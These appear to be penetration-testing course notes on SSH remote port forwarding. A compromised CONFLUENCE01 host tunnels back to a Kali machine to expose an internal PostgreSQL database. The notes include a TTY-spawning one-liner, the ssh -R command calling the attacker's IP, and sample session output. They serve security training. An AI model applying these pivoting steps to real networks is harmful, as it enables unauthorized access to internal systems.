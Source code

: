 However, `CONFLUENCE01` _does_ have an SSH client, and we can set up an SSH server on our Kali machine
+ We can create a port forwarding setup much like the following diagram:
![[Pasted image 20231214210125.png]]

We can connect from `CONFLUENCE01` to our Kali machine over SSH
+ The listening TCP port 2345 is bound to the loopback interface on our Kali machine
+ Packets sent to this port are pushed by the Kali SSH server software through the SSH tunnel back to the SSH client on CONFLUENCE01
+ They are then forwarded to the PostgreSQL database port on PGDATABASE01

Let's set this up in our lab. First, we'll need to enable the SSH server on our Kali machine
+ OpenSSH server is preinstalled - all we need to do is start it 
+ Before you start the Kali SSH server, make sure you've set a strong, unique password for the user:
```
sudo systemctl start ssh
```

We can check that the SSH port is open as we expected using **ss**:
```
sudo ss -ntplu
```
+ Example output:
```
Netid State  Recv-Q Send-Q Local Address:Port Peer Address:Port Process
tcp   LISTEN 0      128          0.0.0.0:22        0.0.0.0:*     users:(("sshd",pid=181432,fd=3))
tcp   LISTEN 0      128             [::]:22           [::]:*     users:(("sshd",pid=181432,fd=4))
```
+ The SSH server is listening on port 22 on all interfaces for both _IPv4_ and _IPv6_

Once we have a reverse shell from `CONFLUENCE01`, we ensure we have a TTY shell, then create an SSH remote port forward as part of an SSH connection back to our Kali machine
+ In order to connect back to the Kali SSH server using a username and password you may have to explicity allow password-based authentication by setting **PasswordAuthentication** to **yes** in **`/etc/ssh/sshd_config`**

The SSH remote port forward option is **-R**, and has a very similar syntax to the local port forward option
+ It also takes two socket pairs as the argument
+ The listening socket is defined first, and the forwarding socket is second

In this case, we want to listen on port **2345** on our Kali machine (**127.0.0.1:2345**), and forward all traffic to the PostgreSQL port on PGDATABASE01 (**10.4.50.215:5432**)
```
ssh -N -R 127.0.0.1:<SERVER-PORT>:<FORWARD-IP>:<FORWARD-PORT> <USERNAME>@<SERVER-IP>
```
+ It is `127.0.0.1` because this is the loop back of the server (or Attacker) that will listen on the specified server port, and stream the traffic to the client (the machine making this ssh command), where that client will then forward the traffic to the specified forward socket (`<FORWARD-IP>:<FORWARD-PORT>`)

Will first ensure that we are in a tty session:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
+ Then will do the remote port forward, see the following example:
```
confluence@confluence01:/opt/atlassian/confluence/bin$ ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
< 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4   
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '192.168.118.4 (192.168.118.4)' can't be established.
ECDSA key fingerprint is SHA256:OaapT7zLp99RmHhoXfbV6JX/IsIh7HjVZyfBfElMFn0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
kali@192.168.118.4's password:
```